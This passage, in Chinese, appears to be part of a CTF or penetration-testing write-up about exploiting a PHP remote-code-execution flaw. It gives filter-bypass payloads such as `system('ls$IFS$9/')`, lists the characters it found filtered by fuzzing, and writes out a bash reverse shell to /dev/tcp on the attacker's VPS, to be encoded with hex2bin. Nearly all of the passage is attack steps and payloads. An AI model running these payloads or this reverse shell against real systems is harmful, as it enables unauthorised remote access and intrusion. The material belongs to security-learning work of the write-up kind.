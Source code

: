 [![](assets/1701678867-be3a8be960e955e53707e9a025f50f48.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203613-b732b5ac-8dea-1.png)

空格被过滤了，绕过一下

```bash
system('ls$IFS$9/');
```

尝试利用 RCE 写一个 shell

这里经过测试正常的打 webshell 好像不太行，fuzz 一下，看看过滤了哪些东西

貌似

```bash
#''- &\*()|
```

都被过滤了，尝试直接 hex2bin/base64\_decode 编码绕一下，弹个 shell 先

```bash
bash -c "bash -i >& /dev/tcp/vps/2333 0>&1"
```

```bash
system(hex2bin(16 进制))
```

[![](assets/1701678867-1b22ff78c5d85d86ca8977026a931189.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203619-bacd0a78-8dea-1.png)
